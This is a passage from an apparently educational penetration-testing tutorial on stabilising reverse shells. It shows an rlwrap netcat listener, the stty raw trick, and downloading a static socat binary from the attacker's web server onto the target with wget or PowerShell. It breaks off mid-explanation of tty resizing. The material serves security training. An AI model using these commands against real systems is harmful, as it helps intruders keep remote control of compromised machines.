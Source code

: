 To use rlwrap, we invoke a slightly different listener:

```
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured  shell. This technique is particularly useful when dealing with Windows  shells, which are otherwise notoriously difficult to stabilise. When  dealing with a Linux target, it's possible to completely stabilise, by using the same trick  as in step three of the previous technique: background the shell with  Ctrl + Z, then use

`stty raw -echo; fg` to stabilise and re-enter the shell. 

------

### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial  netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a  netcat shell. To accomplish this method of stabilisation we would first  transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the  target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat  binary 

(`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`). 

For the sake of completeness: in a Windows CLI environment the same can be  done with Powershell, using either Invoke-WebRequest or a webrequest  system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks. 

------

With any of the above techniques, it's useful to be able to change your  terminal tty size. This is something that your terminal will do  automatically when using a regular shell; however, it must be done  manually in a reverse or bind shell if you want to use something like a  text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![img](assets/7aOKtlO.png)

Next, in your reverse/bind shell, type in:

```
stty rows <number>
```

and
